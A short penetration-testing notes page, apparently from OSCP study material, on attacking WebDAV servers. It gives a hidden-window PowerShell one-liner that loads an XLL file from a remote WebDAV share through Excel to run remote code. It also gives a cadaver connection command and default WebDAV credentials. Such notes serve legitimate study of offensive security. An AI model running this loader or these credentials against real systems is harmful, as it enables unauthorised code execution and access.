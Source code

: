 

PowerShell one liner to load a xll file on a remote WebDAV server - [[DLL-Hijacking]]
```powershell
powershell -w hidden -c "iex ((new-object -ComObject excel.application).RegisterXLL('\\webdav\xll.xll'))"
```
#### DAVtest

[[DAVtest]]

#### cadaver 

```powershell
cadaver http://$ip/webdav
# Default username and password: wamp : xampp
```


## References

[certcube](https://blog.certcube.com/oscp-enumeration-cheatsheet/)